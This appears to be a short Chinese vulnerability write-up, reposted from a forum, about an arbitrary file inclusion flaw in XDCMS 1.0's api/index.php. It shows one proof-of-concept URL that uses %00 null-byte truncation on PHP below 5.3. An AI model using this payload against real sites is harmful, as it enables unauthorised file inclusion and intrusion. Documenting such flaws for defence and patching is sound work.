


# XDCMS 1.0 任意文件包含漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3277](https://www.zhihuifly.com/t/topic/3277)

# XDCMS 1.0 任意文件包含漏洞

## 一、漏洞简介

要求PHP版本小于5.3，否则无法使用%00截断

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

漏洞文件：`api\index.php`





安全过滤函数 发生鸡肋

很明显 %00截断

```
http://www.0-sec.org/api/index.php?c=xxxxxx%00dama.php 
```